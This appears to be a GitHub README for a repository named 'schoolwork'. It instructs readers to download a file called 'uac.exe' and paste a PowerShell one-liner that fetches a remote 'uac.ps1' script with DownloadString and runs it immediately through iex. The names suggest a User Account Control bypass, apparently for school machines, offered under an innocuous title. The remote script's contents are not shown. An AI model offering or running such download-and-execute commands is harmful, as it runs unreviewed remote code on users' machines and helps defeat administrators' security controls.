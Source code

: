 # schoolwork

1: Download uac.exe, Don't move it  
2: open Powershell  
3: input the command below  
## iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/poorkid8921/schoolwork/refs/heads/main/uac.ps1'))
